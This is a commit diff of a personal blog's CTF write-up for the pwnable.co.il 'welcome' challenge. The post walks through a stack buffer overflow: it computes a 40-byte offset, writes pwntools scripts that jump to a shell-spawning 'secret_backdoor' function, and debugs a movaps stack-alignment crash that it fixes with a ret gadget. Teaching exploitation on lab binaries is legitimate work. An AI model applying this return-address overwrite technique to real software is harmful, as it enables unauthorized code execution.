

Before and after one commit to 4f3rg4n/4f3rg4n.github.io, a Jekyll site: the page built from _posts/CTF-Writeups/2025-10-26-welcome.md, in a window 1280 px wide and 1400 px high, scrolled down 2318 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Fix stack alignment issue in exploit for secret_backdoor
Updated exploit script to include stack realignment before calling secret_backdoor function. Added debugging notes and clarified payload construction.

````diff
--- a/_posts/CTF-Writeups/2025-10-26-welcome.md
+++ b/_posts/CTF-Writeups/2025-10-26-welcome.md
@@ -46,15 +46,45 @@
 
 ### Functions symbols list:
 [![static symbols](/assets/images/ctf-writeups/pwnable.co.il/welcome/symbols.png)](/assets/images/ctf-writeups/pwnable.co.il/welcome/symbols.png)
+
 From the static symbol list we found an interesting function called `secret_backdoor`, so let’s examine it.
 
+
 [![secret_backdoor function dump](/assets/images/ctf-writeups/pwnable.co.il/welcome/secret_backdoor_func.png)](/assets/images/ctf-writeups/pwnable.co.il/welcome/secret_backdoor_func.png)
+
 This function is acttually a `win()` function, when called it invokes `system("/bin/sh")` which spawns a shell immediately.
 That makes calling `secret_backdoor` a straightforward path to code execution, so lets try it!
 
 
+### Initial attempt
+To overwrite the saved return address we fill the `name` buffer and the saved `RBP`, The offset from the start of `name` to the return address is 32 (the length of `name` buffer) + 8 (saved `RBP`) = 40 bytes.
+So send 40 bytes of padding followed by the address of `secret_backdoor`.
 
-## payload
+## Example script
+```py
+from pwn import *
+
+exe = ELF('./welcome')
+
+p = process('./welcome')
+payload = cyclic(40) # 32 (name) + 8 (saved RBP)
+payload += p64(exe.sym.secret_backdoor)
+
+p.sendline(payload)
+p.interactive()
+```
+
+oooops... we got an `EOF while reading in interactive` error, which means the program exited (or crashed) before `p.interactive()` could hand us a shell...
+lets debug by replacing `process()` with `gdb.debug()` (or attach gdb to the process) so we can see whats happening when our payload runs.
+
+
+[![secret_backdoor function dump](/assets/images/ctf-writeups/pwnable.co.il/welcome/movaps_segfault.png)](/assets/images/ctf-writeups/pwnable.co.il/welcome/movaps_segfault.png)
+
+Now the problem is clear! The `do_system` path inside `system()` uses `movaps` opcode, which requires `16-byte aligned` memory operands. If the stack isn’t `16-byte aligned` when `system()` runs, that instruction faults and the program dies (hence the `EOF` / crash..).
+
+The easiest fix here is to place a single `ret gadget` before calling `secret_backdoor()`, that `ret` realigns the stack to `16-bytes` so `system()` won’t fault.
+
+## Exploit
 ```python
 #!/usr/bin/env python3
 # -*- coding: utf-8 -*-
@@ -105,9 +135,9 @@
     io = start()
 
     ### payload ###
-    payload = cyclic(PADDING)
-    payload += p64(ret)
-    payload += p64(exe.sym.secret_backdoor)
+    payload = cyclic(PADDING) # reach the return address.
+    payload += p64(ret) # realign the stack so movaps opcode won't fault.
+    payload += p64(exe.sym.secret_backdoor) # call win function.
 
     io.sendline(payload)
 
````
